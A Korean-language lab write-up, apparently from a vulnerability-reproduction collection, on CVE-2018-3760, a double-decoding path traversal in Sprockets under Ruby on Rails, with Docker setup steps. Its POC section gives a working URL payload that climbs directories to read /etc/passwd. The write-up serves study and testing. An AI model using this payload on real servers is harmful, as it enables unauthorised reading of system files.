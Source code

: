 # # CVE-2018-3760

**Contributors**

- [정소은(@whitecloud03)](https://github.com/whitecloud03)

<br/>

### 요약

-   Ruby On Rails는 개발 환경에서 정적파일 서버로 Sprockets를 사용하는 루비 웹 개발 프레임 워크입니다. 
-   Sprockets 3.7.1 이하 버전에는 2차 디코딩으로 인한 경로 횡단 취약성이 있습니다. 공격자는 %252e%252e/을 사용해 루트 디렉터리에 액세스하고 대상 서버의 모든 파일을 읽거나 실행할 수 있습니다.

<br/>

### 환경 구성 및 실행

-   `docker compose up -d`를 실행하여 테스트 환경을 실행합니다.
-   'http://localhost:3000'을 방문하면 환영 페이지가 나타납니다.

![](1.png)

### POC
-   /etc/passwd 파일이 허용된 디렉토리에 없기 때문에 http://your-ip:3000/assets/file:%2f%2f/etc/passwd를 직접 방문하면 오류를 발생시킵니다.

![](2.png)

- /usr/src/blog/app/assets/images와 같은 디렉토리 중 하나를 선택한 후 %252e%252e/를 사용하여 상위 디렉토리로 이동한 후 /etc/passwd 파일을 읽을 수 있습니다.

```
http://your-ip:3000/assets/file:%2f%2f/usr/src/blog/app/assets/images/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/etc/passwd
```

<br/>

### 결과

![](3.png)

<br/>

### 정리

- Sprockets 루비 프레임 워크에서, 공격자는 %252e%252e/를 이용해 루트 디렉토리에 접근할 수 있다.

